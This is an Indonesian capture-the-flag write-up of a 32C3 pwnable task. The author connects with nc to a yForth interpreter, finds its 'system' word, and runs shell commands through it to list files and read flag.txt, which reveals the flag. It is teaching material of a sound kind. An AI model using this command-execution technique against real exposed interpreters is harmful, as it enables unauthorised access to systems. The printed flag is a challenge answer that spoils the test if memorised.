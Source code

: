 Deskripsi Soal:
<pre>
Connect to 136.243.194.49:1024 and get a shell.
</pre>
Ini adalah soal dengan kategori pwnable yang hanya satu - satunya soal yang dapat saya selesaikan, 
maklum seluruh soal yang ada menurut saya lumayan sulit. Melihat dari perintah di-soal 
tersebut kita hanya perlu melakukan koneksi menggunakan nc.

<pre>
c:\>nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
</pre>

Di console yForth kita dapat mengetik syntax dari FORTH, FORTH adalah salah satu bahasa pemrograman yang tidak terlalu familiar. Saya ber-asumsi bahwa disini kita akan melakukan command execution, hanya saja disini saya baru mengetahui bahasa pemrograman ini.

Setelah googling beberapa menit mengenai yForth, perintah "words" nampaknya dapat membantu. Dan berikut hasil yang ditemukan.

<pre>
sliteral (marker) (wValue) compile, (doExit) (doFLit) (branch) postpone
constant variable evaluate &#locals &floored -trailing ? [compile] \ source-id
(doValue) (0branch) (compile) ] [ immediate ' . # j i ; : , ( interpret @ > =
< / - + * ! &file-ext &facility &search-order-ext &memory-alloc-ext &floating
&max-char &core-ext source-id .s to #! u> save-input c" <> 0> .r .( save-image
read-const view-error-message s" ." u. cr #> #s <# do if c, u< r@ r> or m* c@
c! bl >r 2@ 2/ 2* 2! 1- 1+ 0= 0< +! */ &exception &block-ext &tools-ext
&wordlists &max-float &address-unit-bits dp bye see u.r nip hex ?do 2r@ 2r>
2>r 0<> pad ver ['] key xor um* s>d rot mod min max dup and abs &string-ext
&locals-ext &double-ext &return-stack-cells tib >in [if] dump tuck true roll
pick (.") (do) char sign move fill environment? type emit hold find loop else
then exit here quit word swap over drop ?dup 2dup /mod &stack-cells &pad last
base input-buffer cmove blank ahead words (?do) value restore-input parse
false erase again while leave count abort >body space +loop begin does> allot
depth chars char+ cells cell+ align 2swap 2over 2drop */mod &file
&facility-ext &search-order &memory-alloc &floating-ext &core &hold state
error search cmove> [then] [else] within unused refill marker system (loop)
(does) repeat [char] unloop abort" spaces create source accept um/mod sm/rem
rshift negate lshift invert fm/mod (check-system) &exception-ext &block &tools
&max-u &max-n &max-d compare /string cs-roll cs-pick :noname (doLit) (doCol)
(+loop) literal execute decimal recurse >number aligned &string &locals
&floating-stack &double &max-ud &counted-string in-input-buffer ok
</pre>

Menganalisa hasil diatas, ada salah satu fungsi yang saya cari yaitu "system". Hanya saja, disini saya tidak mengetahui bagaimana cara memanfaatkan fungsi tersebut di bahasa pemrograman FORTH, untuk itu saya 
mencoba mencari tahu bagaimana memanfaatkan fungsi ini, ditemukanlah artikel berikut.

http://rosettacode.org/wiki/Execute_a_system_command#Forth 

Dijelaskan bahwa penggunaan fungsi "system" pada pemrograman FORTH adalah sebagai berikut.

```C
s" ls" system
```

Setelah saya jalankan pada console yForth, ternyata berhasil ! 

```bash
flag.txt  README.gpl  run.sh  yforth
```

Nampaknya file "flag.txt" sangat menarik untuk dilihat, jalankan kembali perintah dengan syntax dibawah.

```C
s" cat flag.txt" system
```

Dan, ditemukanlah flagnya.

Flag: <b>32C3_a8cfc6174adcb39b8d6dc361e888f17b</b>
